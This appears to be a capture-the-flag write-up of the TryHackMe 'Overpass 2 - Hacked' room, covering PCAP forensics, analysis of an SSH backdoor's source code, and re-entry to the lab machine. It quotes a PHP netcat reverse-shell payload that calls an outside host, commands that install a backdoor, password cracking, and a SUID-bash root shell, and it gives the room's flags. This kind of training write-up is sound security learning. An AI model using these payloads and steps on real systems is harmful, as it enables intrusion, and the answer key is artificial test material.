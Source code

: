 # TryHackMe [Overpass 2 - Hacked](https://tryhackme.com/room/overpass2hacked)
### References
* Hammond, J. (2020). TryHackMe! Overpass 2 Recovering from THE HACK [YouTube Video]. In YouTube. https://youtu.be/XtySdRYCbiY
## Forensics - Analyse the PCAP
### What was the URL of the page they used to upload a reverse shell?
* Filter for HTTP traffic, the response for the GET `/development/` request contains an HTML upload form (visible by following the HTTP stream):
```html
<body>
  <nav>
    <img class="logo" src="/img/overpass.svg" alt="Overpass logo">
    <h2 class="navTitle"><a href="/">Overpass</a></h2>
    <a href="/aboutus">About Us</a>
    <a href="/downloads">Downloads</a>
  </nav>
  <div class="bodyFlexContainer content">
    <div>
      <div>
        <h3 class="formTitle">Overpass Cloud Sync - BETA</h1>
      </div>
      <!-- Muiri tells me this is insecure, I only learnt PHP this week so maybe I should let him fix it? Something about php eye en eye? -->
      <!-- TODO add downloading of your overpass files -->
      <form action="upload.php" method="post" enctype="multipart/form-data">
        <div class="formElem"><label for="fileToUpload">Upload your .overpass file for cloud synchronisation</label><input type="file"
            name="fileToUpload" id="fileToUpload"></div>
        <div class="formElem"><input type="submit" value="Upload File" name="submit"></div>
      </form>
    </div>
  </div>
```
![HTTP GET request for `/development/`](development.jpg)

**Answer**: `/development/`
### What payload did the attacker use to gain access?
* Filter for HTTP traffic, the response for the POST `/development/upload.php` request contains a PHP payload (visible by following the HTTP stream):
```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```
![HTTP POST request for `/development/upload.php`](development_upload_php.jpg)

**Answer**: `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`
### What password did the attacker use to escalate privileges?
1. Filter for the 3rd TCP stream (with `tcp.stream eq 3`, the first 2 TCP streams are part of the HTTP GET and POST requests), and follow the stream.
2. In that stream, we can see the shell session the attacker used and the password that was entered:
```bash
$ su james
Password: whenevernoteartinstant
```
**Answer**: `whenevernoteartinstant`
### How did the attacker establish persistence?
1. Filter for the 3rd TCP stream (with `tcp.stream eq 3`, the first 2 TCP streams are part of the HTTP GET and POST requests), and follow the stream.
2. In that stream, we can see the shell session the attacker used and the tools that were downloaded:
```bash
james@overpass-production:~$ git clone https://github.com/NinjaJc01/ssh-backdoor
james@overpass-production:~$ cd ssh-backdoor
james@overpass-production:~/ssh-backdoor$ ssh-keygen
james@overpass-production:~/ssh-backdoor$ chmod +x backdoor
james@overpass-production:~/ssh-backdoor$ ./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

**Answer**: `https://github.com/NinjaJc01/ssh-backdoor`
### Using the `fasttrack` word list, how many of the system passwords were crackable?
* `john` managed to crack 4 passwords out of the [shadow file](shadow):
```bash
$  john shadow --wordlist=$(pwd)/fasttrack.txt
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
secret12         (bee)
abcd123          (szymex)
1qaz2wsx         (muirland)
secuirty3        (paradox)
4g 0:00:00:00 DONE (2021-05-01 12:01) 21.05g/s 947.3p/s 4736c/s 4736C/s P@55w0rd..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

**Answer**: `4`
## Research - Analyse the code
### What's the default hash for the backdoor?
* The [main.go file](ssh-backdoor/main.go) contains the default hash as a `hash` variable:
```go
var hash string = "bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3"
```

**Answer**: `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`
### What's the hardcoded salt for the backdoor?
* The [main.go file](ssh-backdoor/main.go) contains 3 functions related to hashing:
  * `hashPassword`:
	```go
	func hashPassword(password string, salt string) string {
		hash := sha512.Sum512([]byte(password + salt))
		return fmt.Sprintf("%x", hash)
	}
	```
  * `verifyPass`
	```go
	func verifyPass(hash, salt, password string) bool {
		resultHash := hashPassword(password, salt)
		return resultHash == hash
	}
	```
  * `passwordHandler` passes a salt-looking string as an argument to the `verifyPass` functions' `salt` argument in order to verify the backdoor password:
	```go
	func passwordHandler(_ ssh.Context, password string) bool {
		return verifyPass(hash, "1c362db832f3f864c8c2fe05f2002a05", password)
	}
	```

**Answer**: `1c362db832f3f864c8c2fe05f2002a05`
### What was the hash that the attacker used? - go back to the PCAP for this!
1. The [main.go file](ssh-backdoor/main.go) accepts the `-a` flag for the hash input:
```go
flaggy.String(&hash, "a", "hash", "Hash for backdoor")
```
2. Filter for the 3rd TCP stream (with `tcp.stream eq 3`, the first 2 TCP streams are part of the HTTP GET and POST requests), and follow the stream.
3. In that stream, we can see the shell session the attacker used and the CLI arguments that were used:
```bash
james@overpass-production:~/ssh-backdoor$ ./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

**Answer**: `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`
### Crack the hash using `rockyou.txt` and a cracking tool of your choice. What's the password?
* I could not get my OpenCL runtime to work on Manjaro with the Mesa drivers. The answer to this question was obtained by watching [John Hammond's video](https://youtu.be/XtySdRYCbiY).
```bash
$ hashcat -m 1710 "$(cat hash):$(cat salt)" --force $(pwd)/../../../rockyou.txt
```

**Answer**: `november16`
##  Attack - Get back in!
### The attacker defaced the website. What message did they leave as a heading?
**Answer**: `H4ck3d by CooctusClan`
### What's the user flag?
1. The SSH port is `2222` (from the [main.go file](ssh-backdoor/main.go):
```go
var lport uint = 2222
```
2. The SSH user is `james` (from the [PCAP](overpass2.pcapng)'s 3rd TCP stream).
```bash
ssh -p 2222 james@<MACHINE_IP>
james@overpass-production:/home/james/ssh-backdoor$ cd /home/james/
james@overpass-production:/home/james$ ls
ssh-backdoor  user.txt  www
james@overpass-production:/home/james$ cat user.txt 
thm{d119b4fa8c497ddb0525f7ad200e6567}
```

**Answer**: `thm{d119b4fa8c497ddb0525f7ad200e6567}`
### What's the root flag?
* There is a SUID binary (`.suid_bash`) in `james`' home directory:
```bash
james@overpass-production:/home/james$ ls -la
total 1136
drwxr-xr-x 7 james james    4096 Jul 22  2020 .
drwxr-xr-x 7 root  root     4096 Jul 21  2020 ..
lrwxrwxrwx 1 james james       9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21  2020 .cache
drwx------ 3 james james    4096 Jul 21  2020 .gnupg
drwxrwxr-x 3 james james    4096 Jul 22  2020 .local
-rw------- 1 james james      51 Jul 21  2020 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21  2020 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash
drwxrwxr-x 3 james james    4096 Jul 22  2020 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22  2020 user.txt
drwxrwxr-x 7 james james    4096 Jul 21  2020 www
```
2. Assuming it's a modified version of `/bin/bash`, the `-p` flag should enable access to a `root` user shell:
```bash
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# cat /root/root.txt
thm{d53b2684f169360bb9606c333873144d}
```

**Answer**: `thm{d53b2684f169360bb9606c333873144d}`